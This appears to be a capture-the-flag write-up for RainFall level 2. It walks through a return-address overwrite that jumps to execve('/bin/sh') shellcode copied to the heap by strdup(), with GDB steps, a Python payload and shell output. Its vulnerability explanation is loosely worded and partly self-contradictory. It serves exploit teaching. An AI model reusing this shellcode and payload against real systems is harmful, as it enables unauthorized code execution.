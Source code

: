 <h1 align="center"> LEVEL 2 </h1>

## 🔍 Analysis of Decompiled [level2](./source.c)
since stack has execution protection this is a heap overflow, we execute shellcode from the heap using strdup().

Exploit Strategy:</br>

Inject shellcode into local_50 buffer:
  - strdup(local_50) copies this shellcode to heap at a predictable address (found via GDB).
  - Overflow RET to point to the heap address returned by strdup().
  - When p() returns → EIP = heap → shellcode executes → /bin/sh spawns.

Why This Works?</br>

NX disabled → heap is executable(Check only blocks stack addresses, not heap).</br>
ASLR (Address Space Layout Randomization) is disabled.
```sh
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
ASLR off → heap address is stable (e.g., `0x0804a008`).
strdup() gives us a writable+executable space for shellcode.

Find heap address after strdup() using GDB:
```
(gdb) b p
(gdb) r
(gdb) disass p
...
0x08048535 <+97>:	mov    %eax,(%esp)
0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
0x0804853d <+105>:	leave  
0x0804853e <+106>:	ret  
(gdb) break *0x0804853d
(gdb) run < <(python exploit.py)
(gdb) info registers
```
## 💥 Exploit 

Shellcode: 25-byte Linux x86 execve("/bin/sh").
```sh
shellcode = (
    "\x31\xc0"          # xor eax,eax        ; clear eax
    "\x50"              # push eax           ; push NULL
    "\x68\x2f\x2f\x73\x68" # push "//sh"
    "\x68\x2f\x62\x69\x6e" # push "/bin"
    "\x89\xe3"          # mov ebx,esp        ; ebx -> "/bin//sh"
    "\x50"              # push eax           ; push NULL (argv terminator)
    "\x53"              # push ebx           ; push pointer to "/bin//sh"
    "\x89\xe1"          # mov ecx,esp        ; ecx -> argv[]
    "\x99"              # cdq                ; edx = 0
    "\xb0\x0b"          # mov al,0xb         ; syscall number for execve
    "\xcd\x80"          # int 0x80           ; syscall
)

[ shellcode ....... ]   (goes into heap by strdup)
[ padding AAAAA... ]    (76 bytes, fills stack buffer)
[ BBBB             ]    (overwrites saved EBP)
[ 0x0804a008       ]    (overwrites RET with heap addr)
```
Padding to 76 bytes.</br>
Overwrite EBP (4 bytes).</br>
Overwrite RET with heap address.
```py
from struct import pack
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)
heap_addr = 0x0804a008
payload  = shellcode
payload += "A" * (76 - len(shellcode))
payload += "B" * 4
payload += pack("<I", heap_addr)
print(payload)
```
```sh
(python exploit.py; cat) | ./level2
 whoami
 level3
```